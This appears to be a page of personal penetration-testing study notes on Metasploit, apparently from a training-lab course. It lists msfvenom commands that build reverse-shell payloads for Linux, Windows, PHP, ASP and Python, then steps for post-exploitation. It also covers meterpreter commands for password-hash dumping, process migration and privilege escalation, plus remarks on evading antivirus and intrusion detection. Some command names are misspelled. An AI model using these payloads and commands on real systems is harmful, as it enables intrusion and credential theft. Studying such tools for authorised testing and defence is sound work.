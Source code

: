 --
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf` | Linux Executable and Linkable Format (elf) | file needs to be chmod +x to run
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe` | windows
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php` | PHP
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp` | ASP
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py` | python
--
**post exploitation**
--
background the session established
search the post directory for a post exploit
set the session id of the backgrounded session
run post exploit
--

**meterpreter**
--
`help` | list all commands
--
most antivirus will detect
--
use post/<os>/gather to find more information about system
--
both single and staged
--
runs in the targets memory - this feature aims to avoid antivirus
Meterpreter also aims to avoid being detected by network-based IPS (Intrusion Prevention System) and IDS (Intrusion Detection System) solutions by using encrypted communication with the server where Metasploit runs
--
`getpid` | gets process id of the running meterpreter
`getuid` | get user meterpreter is running as
`ps` | list processes and their names | search for processes using higher pivledged user
`migrate <pid>` | migrate to another process, can be used strategically | careful can remove privliedged when migrating
`hashdump` | spits our usernames and password on system | not mathematically possible to crack, may be able to find password using onlin NTLM databases or a rainbow table attack, can be used in pass the hash attacks
`search -f <file>` | search for file on system
`shell` | launch regular shell on system, use CTRL + Z to get back to meterpreter shell
`getsysttem` | attempt to elevate privledges
`load` | can be used to load additional tools like Kiwi or python language `help` will show new options
`sysinfo` | system information
--

**Shells**
--
url encode webshells when needed
--
tools:
netcat | binary available on kali at `/usr/share/windows-resources/binaries` for windows use
socat | netcat on steroids | not often installed | provides link between two points like port to a file, or port to a port
msf multi handler
msfvenom
--
`/usr/share/webshells` | included with kali
`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md` | lots of shells/payloads